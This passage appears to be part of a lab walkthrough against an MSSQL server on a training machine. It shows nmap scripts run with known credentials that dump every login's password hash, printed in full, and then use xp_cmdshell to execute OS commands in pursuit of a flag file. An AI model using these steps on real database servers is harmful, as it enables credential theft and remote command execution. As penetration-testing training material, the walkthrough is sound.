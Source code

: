 > `Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4`
>
> `Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5`
>
> `auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e`
>
> `dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b`

```bash
root@attackdefense:~# nmap --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria -p1433 10.0.28.28
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-28 09:08 IST
Nmap scan report for 10.0.28.28
Host is up (0.0021s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-dump-hashes: 
| [10.0.28.28:1433]
|     sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0
|     ##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c
|     ##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083
|     admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0
|     Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4
|     Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5
|     auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e
|_    dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b

Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

> 7. Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)

Execute a command using [`ms-sql-xp-cmdshell`](https://nmap.org/nsedoc/scripts/ms-sql-xp-cmdshell.html) nmap script.

* [xp\_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) _spawns a Windows command shell and passes in a string for execution_

```bash
root@attackdefense:~# nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" -p1433 10.0.28.28
Starting Nmap 7.91 ( https://nmap.org ) at 2024-06-28 09:09 IST
Nmap scan report for 10.0.28.28
Host is up (0.0023s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-xp-cmdshell: 
|   [10.0.28.28:1433]
|     Command: ipconfig
|       output
|       ======
```